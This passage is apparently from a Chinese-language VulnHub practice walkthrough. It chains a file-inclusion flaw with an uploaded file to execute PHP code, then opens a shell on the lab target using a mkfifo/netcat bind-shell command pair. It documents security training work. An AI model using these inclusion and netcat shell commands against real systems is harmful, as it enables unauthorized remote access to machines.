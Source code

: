 

## 结合文件包含getshell

虽然这里无法上传一个正常的php文件，但是之前的8011端口还存在一个任意文件包含，于是可以相互结合，执行php代码

这里需要进行一下简单的目录猜测

```
/var/www/development/uploader/FRANKuploads/2.png
```

可以成功执行命令了

![](vulnhub-练习记录\19.png)

然后就行反弹shell

之前常用的本机监听端口反弹shell命令似乎无法执行。于是选择了另外一中反向连接的弹shell方式。

靶机上

```shell
mkfifo /tmp/tmp_fifo
cat /tmp/tmp_fifo | /bin/sh -i 2>&1 | nc -l 1567 > /tmp/tmp_fifo
```

本机上

```shell
nc -n 192.168.85.136 1567
```



post传输的时候注意一下url编码几个，然后就可以收到反弹回来的shell

![](vulnhub-练习记录\20.png)
